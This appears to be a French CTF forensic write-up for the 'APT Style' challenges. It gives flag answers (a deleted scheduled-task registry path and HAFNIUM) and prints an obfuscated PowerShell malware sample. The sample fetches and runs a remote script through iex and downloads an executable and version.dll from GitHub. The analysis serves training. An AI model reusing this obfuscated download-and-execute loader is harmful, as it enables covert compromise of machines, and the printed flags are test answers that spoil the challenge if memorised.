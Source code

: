 Question

Quel élément a été supprimé afin de masquer ce comportement malveillant à Windows ? La réponse attendue est le chemin de l'élément supprimé.

Quel groupe d'attaquant emploie une méthode similaire ? La réponse attendue est le nom du groupe.

Le flag est au format FCSC{\<chemin\>:\<nom du groupe\>}.

## Solution
As discovered previously, the security descriptor was deleted, its path was ```HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft\Windows\Speech\SpeechModelDownloadTask```.

FLAG: ```FCSC{HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft\Windows\Speech\SpeechModelDownloadTask:HAFNIUM}```

# APT Style 3/7

Question

Quel fichier est utilisé comme base de timestomp des fichiers malveillants ? La réponse attendue est le chemin complet du fichier au format : FCSC{<chemin>}.

## Solution

Upon analysis of the ```OneDriveUpdate.ps1``` downloaded by the task:
```powershell
if (&("{2}{0}{1}" -f'e','st-Path','T') -Path ((("{17}{11}{6}{8}{19}{14}{2}{16}{20}{21}{13}{15}{3}{7}{12}{18}{5}{4}{1}{0}{9}{10}" -f 'er.','pdat','osof','O','eU','on','am File','neDr','s','ex','e','gr','ive','Updat','icr','erHcn','t','C:HcnPro','Standal','HcnM','HcnOneDriv','e'))."R`EPlace"(([ChAR]72+[ChAR]99+[ChAR]110),[STring][ChAR]92))) {
    & ((("{7}{3}{14}{1}{0}{8}{11}{5}{12}{4}{6}{2}{13}{9}{10}"-f'm Files{0}Micro','rogra','dater{','0}','i','neD','veUp','C:{','soft{0','neDriveSt','andaloneUpdater.exe','}O','r','0}O','P'))  -f  [CHAr]92)
} else {
          ${Z`F6}::"secU`RiTypr`OToC`OL" =  ${Z`F6}::"SECurit`ypro`T`OCol" -bor 3072; &("{0}{1}"-f 'ie','x') ((&("{1}{0}{2}"-f 'ew-Obj','N','ect') ("{0}{5}{4}{2}{3}{1}"-f'Sy','t','m.Net.W','ebClien','e','st')).("{3}{1}{0}{2}"-f'rin','oadSt','g','Downl').Invoke(("{9}{11}{8}{4}{14}{0}{13}{17}{7}{10}{1}{6}{15}{3}{19}{12}{18}{2}{16}{5}" -f 'wit','eUp','nstall.','w/m','/','s1','dater','ne','/','https','Driv',':','in','nessstrong','github.com/','/ra','p','/O','/i','a'))) | .("{2}{0}{1}"-f'Nu','ll','Out-');
    &("{1}{0}"-f'w-Item','Ne') -ItemType ("{0}{2}{1}" -f 'Dir','ory','ect') -Force -Path ((("{8}{2}{3}{1}{6}{7}{4}{5}{0}" -f 'r','Mi','X8Program Fi','leslX8','lX8OneDriveU','pdate','cro','soft','C:l')).("{1}{0}" -f'Ace','REpl').Invoke('lX8','\')) | &("{1}{0}"-f'Null','Out-');
    (.("{1}{2}{0}"-f'ject','N','ew-Ob') ("{1}{2}{3}{0}"-f 'nt','N','et.WebC','lie')).("{1}{0}{2}" -f 'Fil','Download','e').Invoke(("{21}{5}{16}{14}{17}{20}{2}{12}{11}{15}{24}{13}{7}{3}{8}{10}{18}{22}{1}{9}{19}{0}{6}{23}{4}" -f'aloneU','eDriv','ub.','Up','e','ttps','pdate','eDrive','dater/r','eStan','aw/mai','witnes','com/','n','/g','sstrong/',':/','it','n/','d','h','h','On','r.ex','O'),((("{5}{9}{17}{0}{11}{4}{1}{12}{3}{10}{6}{14}{7}{13}{15}{16}{18}{2}{8}"-f 'ogra','ob3','r.e','cr',' Files','C:','b3O','b3','xe','ob3P','osofto','m','Mi','O','neDriveUpdatero','neDriv','eSt','r','andaloneUpdate'))-REplACE'ob3',[char]92));
    (&("{1}{3}{0}{2}"-f'Objec','N','t','ew-') ("{0}{4}{3}{1}{2}" -f'Ne','Cli','ent','b','t.We')).("{1}{2}{0}" -f'dFile','Down','loa').Invoke(("{13}{1}{8}{6}{9}{12}{0}{4}{2}{7}{3}{5}{11}{10}" -f'on','tp','/On','DriveUpdater/ra','g','w/mai','thub.com/w','e','s://gi','itn','/version.dll','n','essstr','ht'),((("{2}{11}{8}{14}{7}{4}{9}{13}{0}{5}{15}{12}{1}{6}{3}{10}" -f 'oft','Updater5','C:5f','v','ram Fil','5f','fD','g','r','es5fDMi','ersion.dll','DP','ive','cros','o','DOneDr'))."r`Epl`Ace"(([cHAR]53+[cHAR]102+[cHAR]68),'\')));
    (&("{2}{3}{0}{1}" -f'bjec','t','Ne','w-O') ("{2}{3}{1}{0}" -f 'nt','e','Ne','t.WebCli')).("{2}{0}{1}" -f 'wnloa','dFile','Do').Invoke(("{8}{1}{10}{9}{7}{12}{11}{3}{14}{4}{13}{0}{2}{5}{6}"-f 'main/','hub.','v','essstrong/OneDriveUpdate','/raw','ersl','on.dll','m/wi','https://git','o','c','n','t','/','r'),((("{12}{6}{8}{1}{2}{5}{0}{3}{11}{4}{10}{9}{7}"-f 'osoftIgdO','am',' Files','n','UpdaterIgdverslo','IgdMicr','o','l','gr','l','n.d','eDrive','C:IgdPr')).("{1}{2}{0}"-f 'cE','REPl','A').Invoke('Igd','\')));
```